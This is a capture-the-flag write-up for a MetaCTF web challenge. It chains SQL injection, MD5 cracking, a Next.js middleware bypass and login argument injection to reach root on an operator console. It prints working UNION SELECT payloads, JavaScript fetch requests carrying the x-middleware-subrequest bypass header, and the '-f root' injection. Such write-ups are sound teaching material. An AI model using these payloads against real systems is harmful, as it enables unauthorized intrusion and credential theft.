

# Miki Antonelli

**Competition:** MetaCTF  
**Category:** Web exploitation  
**Difficulty recorded in the supplied writeup:** Medium–Hard  
**Flag:** `MetaCTF{k1m1_r00k13_t0_r00t_1jhdeppj}`

## Challenge Overview

The challenge presented a web application called Mercedes-AMG Petronas F1 — Bay 12 Crew & Device Register.

The application provided several sections, including Search, Parts, Movements, Racks, Suppliers, Telemetry, Ops, and Account.

The website also displayed three clearance levels:

```text
USER → STAFF → CONSOLE
```

Our initial account had only USER privileges. The objective was to discover vulnerabilities that would allow us to access the restricted console and retrieve the flag.

The final exploitation chain involved:

- SQL Injection
- Database Enumeration
- Weak Password Hashing (MD5)
- Access to a STAFF Account
- Next.js Middleware Bypass
- Argument Injection
- Root Privilege Escalation
- Flag Extraction
## Initial Reconnaissance — SQL Injection

We started by examining the Search functionality at /dashboard.

To test whether the search parameter was vulnerable to SQL Injection, we entered a single quote:

```text
'
```

The application returned a MySQL error:

```text
ER_PARSE_ERROR
errno 1064

You have an error in your SQL syntax
```

This suggested that user-controlled input was being inserted into an SQL query without proper parameterization.

We tested the following payload:

```text
%' OR 1=1 -- 
```

Result: The application returned 412 records.

This confirmed that our input could modify the SQL query's logic.

### Finding the Number of Columns

To prepare for UNION-based SQL Injection, we tested:

```sql
%' ORDER BY 6 -- 
```

This succeeded.

Next:

```sql
%' ORDER BY 7 -- 
```

The application returned:

```text
Unknown column '7' in 'order clause'
```

Therefore, we confirmed that the original query returned six columns.

## UNION-Based SQL Injection

We constructed a UNION SELECT statement containing six expressions:

```sql
zzzx%' UNION SELECT DATABASE(),USER(),VERSION(),1,'UNION_OK',NOW() -- 
```

The prefix zzzx was used to avoid matching normal inventory records, making our injected row easier to identify.

Result:

```text
Database: bay12_registry
User:     bay12_app@127.0.0.1
Version:  8.0.46
Marker:   UNION_OK
```

This proved that UNION-based SQL Injection was successful.

### Enumerating Databases

We queried the MySQL metadata:

```sql
zzzx%' UNION SELECT schema_name,'DATABASE','SCHEMA',1,'FOUND',NOW() FROM information_schema.schemata -- 
```

The server returned seven databases:

```text
information_schema
performance_schema
bay12_registry
bay12_auth
bay12_ops
bay12_telemetry
bay12_logs
```

The most interesting databases were bay12_auth, which appeared to handle authentication, and bay12_ops, which contained operational device information.

### Enumerating Tables

We used:

```sql
zzzx%' UNION SELECT table_schema,table_name,'TABLE',1,'FOUND',NOW() FROM information_schema.tables WHERE table_schema IN ('bay12_auth','bay12_ops','bay12_telemetry','bay12_logs') -- 
```

Important tables discovered:

| Database | Table |
| --- | --- |
| bay12_auth | users |
| bay12_auth | sessions |
| bay12_auth | login_attempts |
| bay12_ops | device_credentials |
| bay12_ops | console_ports |
| bay12_ops | maintenance_windows |

We then enumerated their columns using information_schema.columns.

The users table contained username, role, status, pw_algo, and pw_hash, which made it an important target for understanding the application's authentication system.

## Obtaining STAFF Access

We enumerated users and their clearance levels:

```sql
zzzx%' UNION SELECT username,display_name,role,id,status,created_at FROM bay12_auth.users -- 
```

Among the results:

| Username | Role | Status |
| --- | --- | --- |
| k.ostberg | admin | active |
| d.whitlock | staff | active |
| m.trescothick | staff | suspended |

We selected the active STAFF account d.whitlock.

### Retrieving the Password Hash

The following SQL statement returned the account's password hash:

```sql
zzzx%' UNION SELECT username,role,pw_hash,id,status,created_at FROM bay12_auth.users WHERE username='d.whitlock' -- 
```

Result:

```text
Username: d.whitlock
Algorithm: MD5
Hash: d9eaabe53adedb62bc74b7eb0a9477d4
```

The application used MD5 for password hashing, which is unsuitable for secure password storage.

By checking password candidates against the hash, we identified the matching plaintext:

```text
mercedes
```

Verification:

```text
MD5("mercedes")
= d9eaabe53adedb62bc74b7eb0a9477d4
```

We successfully authenticated to the website with:

```text
Username: d.whitlock
Password: mercedes
```

The account page now displayed STAFF clearance.

A new navigation item, BAY STATUS, became available.

## Discovering the Operator Console

The STAFF-only Bay Status page provided an operations runbook.

The runbook revealed that the gateway console could be accessed at:

```text
/rootpanel
```

It also stated that the console had a known issue following a platform migration: external requests were redirected back to the Bay Status page.

This was important because the application was built using Next.js.

### Discovering Console Credentials

Earlier, through SQL Injection, we had enumerated the console_ports table and found an interactive console:

```text
Console server: bay12-cs01
Port:           4
Target:         Rack A Garage Control Unit
Authentication: Legacy login
```

We then inspected the related device credential:

```sql
zzzx%' UNION SELECT username,device,password,port,note,NOW() FROM bay12_ops.device_credentials WHERE device='bay12-cs01' AND username='pitwall' -- 
```

The record identified the device operator account:

```text
Username: pitwall
Password: Brackley!Sector3
Port:     4
```

The runbook also warned that the device's keystore material was only accessible to the console operator (UID 0), not to the ordinary operations account.

## Next.js Middleware Bypass

Directly navigating to /rootpanel did not provide normal access to the console.

We tested the x-middleware-subrequest HTTP header, which is associated with a known class of Next.js middleware bypass vulnerabilities.

From the browser's Developer Tools Console, we sent:

```javascript
fetch('/rootpanel', {
  headers: {
    'x-middleware-subrequest':
      'middleware:middleware:middleware:middleware:middleware'
  }
})
.then(async r => {
  console.log(r.status);
  console.log(await r.text());
});
```

Result:

```text
HTTP Status: 200
Title: OPERATOR CONSOLE
```

The response contained the real console interface rather than the normal redirection.

We discovered that its login form used:

```text
Action: /rootpanel
Method: POST
Fields: username, password
```

This confirmed that we could reach the protected console interface by including the middleware-related header.

## Console Login and Privilege Limitations

We submitted the device credentials to /rootpanel using the same header.

The login succeeded, and the console output showed:

```text
Session: pitwall (uid 1001)
Profile: Pit Wall Operations
```

The output included these commands and results:

```text
$ id
uid=1001(pitwall) gid=1001(pitwall)
```

A keystore file existed at:

```text
/etc/dgw/keystore/unlock.key
```

However, attempting to read it returned:

```text
Permission denied
```

The account had ordinary user privileges, while the key was owned by root.

We therefore needed an additional privilege escalation.

## Argument Injection — Escalating to Root

The runbook contained a particularly useful clue:

The console frontend passed the supplied operator name directly into the gateway's login mechanism.

We investigated how the username was handled.

A test using:

```text
pitwall; id; #
```

returned:

```text
login: too many arguments
```

It also revealed the command's usage:

```text
login [-p] [username]
login [-p] [-h host] [-f username]
```

Most importantly:

```text
-f    skip a login authentication
```

The output suggested argument injection, rather than conventional shell command injection.

The username appeared to be interpreted as command-line arguments by the backend login program.

### Exploiting the Login Arguments

We supplied the following username:

```text
-f root
```

The request was made using JavaScript:

```javascript
(async () => {
  const r = await fetch('/rootpanel', {
    method: 'POST',
    credentials: 'same-origin',
    headers: {
      'Content-Type':
        'application/x-www-form-urlencoded',
      'x-middleware-subrequest':
        'middleware:middleware:middleware:middleware:middleware'
    },
    body: new URLSearchParams({
      username: '-f root',
      password: 'test'
    })
  });

  const doc = new DOMParser().parseFromString(
    await r.text(),
    'text/html'
  );

  console.log(
    doc.querySelector('main')?.textContent
  );
})();
```

The vulnerable backend accepted the injected arguments, allowing the login process to reach a privileged session.

Result:

```text
Session: root (uid 0) ** PRIVILEGED **
Profile: Console Operator

*** UNRESTRICTED CONSOLE SESSION ***
```

The console output confirmed:

```text
# id
uid=0(root) gid=0(root) groups=0(root)
```

We had successfully escalated from the ordinary pitwall account to root.

## Flag Extraction

With root privileges, the keystore file became readable.

The successful console response showed:

```text
# ls -l /etc/dgw/keystore
-r-------- 1 root root 38 Sep 9 21:40 unlock.key
```

The flag was retrieved using:

```text
# cat /etc/dgw/keystore/unlock.key
```

Flag:

```text
MetaCTF{k1m1_r00k13_t0_r00t_1jhdeppj}
```

## Vulnerability Summary

| Vulnerability | Impact |
| --- | --- |
| SQL Injection | Unauthorized database access |
| Excessive Database Privileges | Access to authentication and operational databases |
| Weak MD5 Password Hashing | Recovery of a STAFF account password |
| Next.js Middleware Bypass | Access to the restricted console interface |
| Argument Injection | Bypass of console login authentication and root privilege escalation |
| Privileged Keystore Access | Extraction of the flag |

### Full Attack Chain

```text
USER Access
    |
    v
SQL Injection in /dashboard?q=
    |
    v
UNION-Based Database Enumeration
    |
    v
Retrieve STAFF MD5 Hash
    |
    v
Recover Password: mercedes
    |
    v
Login as d.whitlock (STAFF)
    |
    v
Discover /rootpanel via Runbook
    |
    v
Next.js Middleware Bypass
    |
    v
Access Operator Console
    |
    v
Argument Injection: -f root
    |
    v
ROOT Access (UID 0)
    |
    v
Read /etc/dgw/keystore/unlock.key
    |
    v
FLAG CAPTURED
```

## Conclusion

The challenge demonstrated how multiple security weaknesses could be chained together to achieve complete compromise.

The initial SQL Injection exposed more than inventory information because the application's database account could access authentication and operational databases.

Weak password hashing enabled access to a STAFF account, which revealed documentation about the protected console.

A middleware bypass then exposed the console interface, and unsafe handling of login arguments permitted escalation to root.

The key lesson is that individual vulnerabilities can become much more serious when combined, especially when applications lack proper separation of privileges and treat user-controlled data as trusted input.

Challenge Status: SOLVED

**Final flag:** `MetaCTF{k1m1_r00k13_t0_r00t_1jhdeppj}`

## Published evidence

The supplied screenshot shows the privileged console session and the flag output.

[](images/image1.png)

## Source and reproduction scope

The original Word document and embedded screenshot are preserved in this folder. The request payloads and console output above come from those notes. The relationship between the recorded MD5 digest and `mercedes` was checked offline; the challenge service was not contacted and the exploitation chain was not newly executed for publication.
